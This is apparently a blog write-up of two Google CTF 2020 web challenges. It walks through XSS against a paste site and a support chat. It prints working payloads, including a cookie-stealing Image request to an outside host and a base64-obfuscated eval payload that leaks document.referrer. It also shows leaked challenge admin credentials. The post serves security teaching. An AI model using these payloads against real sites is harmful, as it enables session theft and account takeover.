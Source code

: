 ```yaml
---
layout: post
title: googleCTF2020 web challenges writeup
date: 2020-08-23 16:28 +0300
author: pop_eax
categories: ["ctf-writeup", "web", "XSS"]
---
```


# PASTEURIZE

this was the easiest web challenge in the CTF

![decription](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/chall-info.png)

we have a paste sharing site

![main](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/main-site.png)

sharing a paste, we find that we can share our pastes with the admin (TJMike)<br/>

![paste](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/paste.png)

*interesting*

from what I have now, I can see that XSS is what I am supposed to look for
<br/>when testing for xss I always throw this payload to see how the sanitaization is being done
```html
<script>alert(1);</script>
```

checking the source code verifies the input is getting sanitaizied

<br/>while reading the source code I realized I missed that comment

![comment](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/comment.png)<br/>

![source-code](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/source-code.png)

looking at it I was able to verify that the sanitaization is only done on client side with DOMpurify

![DOMpurify](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/dompurify.png)

I tried to bypass DOMpurify and read the source code, but that led to nothing since the version used in here is safe.

at this point I thought to myself<br/>
DOMpurify shouldn't be bypassed since it's a really good project used everywhere
and the high number of solves to the challenge doesn't make me feel like we need to discover a 0day for such an easy challenge.<br/>

so I took it simply, and reviewd everything I have simply then an idea clicked in my mind 

```js
const note = "asdasd";
const note_id = "cb33322e-4b48-4d0f-a748-1e509be9645d";
const note_el = document.getElementById('note-content');
const note_url_el = document.getElementById('note-title');
const clean = DOMPurify.sanitize(note);
note_el.innerHTML = clean;
note_url_el.href = `/${note_id}`;
note_url_el.innerHTML = `${note_id}`;
```
what if we put a `"` in our input and get a DOM based XSS

![escaped](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/escaped.png)

aaand it's getting escaped.<br/>

*is that the end of it then ?*<br/>
nope, it's not I went back the server side source code and I saw something interesting

```js
/* Who wants a slice? */
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```
the comment was interesting, when I first looked at it I felt like it's a useless thing
since it encodes the greater/less than signs.

but the comment felt odd at this point, so I tried to play with the code locally.

![locally](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/locally.png)

now I understood why the slice is important.
I looked at examples online for JSON.stringify and saw that there's only 1 case that doesn't start with `"` which is when passing an object to it.

![object](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/object.png)

I fired up burp suite and sent a json object and the quotes wasn't there :( <br/>
that's because my input is getting passed to the backend as a string not as an object

![req](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/req.png)
![res](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/res.png)

I did some research and then I remembered that I can send raw objects with `param[]=thing` in http.

![req](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/evil-req.png)
![res](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/evil-res.png)

DONE

crafting this payload
```js
content[]=;alert(1);//
```

![alert](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/alert.png)
![alerted-source](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/alerted-source.png)

now time to hack TJMike
```js
content[]=;new Image().src="http://domain/"+(document.cookie);//
```

![flag](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/flag.png)

___

# TECH SUPPORT

![desc](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/desc.png)

this challenge was fairly simple but it had a lot of rabbit holes which was really interesting.

the app is a normal site with a admin chat service too
so basically it's xss

we have the following features: 

![features](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/features.png)

/flag

![flag-thing](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/flag-thing.png)

¯\\\_(ツ)_/¯


/me (profile)

![me](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/me.png)

in here I updated the address with this payload

```html
<script>alert(1);</script>
```

and it worked :) . <br/>
but that was so useless, since it's a self XSS and by no way the admin can access it since the address value is stored in the cookies.

**(╯°□°）╯︵ ┻━┻**

/chat (the interesting thing)

![chat](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/chat.png)

now inputting the pervious payload didn't really work
so I tried this

```html
<img src=X onerror=alert(1)>
```

*isn't this another self xss ?*<br/>
I thought the same too don't worry.

after submitting the form I new window popped up, which felt interesting<br/>
~~it's literally useless btw~~

![chat](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/chat-window.png)

now I got a random thought of trying to send an legit image and to check who fetches it

```html
<img src=domain.com>
```

and I got 2 requests :)

![reqs](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/reqs.png)

at this point I tried to grab the /flag and send to my server and it didn't work.<br/>
after researching it I realized it's not working because the XSS is triggering on another domain which is typeselfsub-support.web.ctfcompetition.com . <br/>

at this point I was trying to do some weird magical stuff like SOP bypasses and I thought about redirecting to the self xss at my profile somehow <br/>

***all of that is useless***

after sending a lot of requests I thought about leaking more info from what we have<br/>
so I started getting `document.thing` stuff and `document.referrer` returned something cool

the payload

```html
<img src=X onerror=eval(atob("d2luZG93LmxvY2F0aW9uID0gImh0dHBzOi8veG9yZWF4LmZyZWUuYmVlY2VwdG9yLmNvbS9sZWFrP3E9IiArIGRvY3VtZW50LnJlZmVycmVy"))>
```

spaces started messing, how the payload works so I base64 encoded it
so I decoded it with `atob` and executed it with `eval`
the decoded value

```js
window.location = "https://domain.com/leak?q=" + document.referrer
```

P.S: you can base64 encode in javascript with `btoa`

I got the following url from the bot
```
https://typeselfsub.web.ctfcompetition.com/asofdiyboxzdfasdfyryryryccc?username=mike&password=j9as7ya7a3636ncvx&reason={mypayload here}
```

then I went to that url and it auto logged me as admin :P

![admin](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/admin.png)

now going to /flag

![flag](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/flag.png)

and DONE

## references

[xss](https://portswigger.net/web-security/cross-site-scripting/)<br/>
tool used to get http requests [beeceptor](http://beeceptor.com/)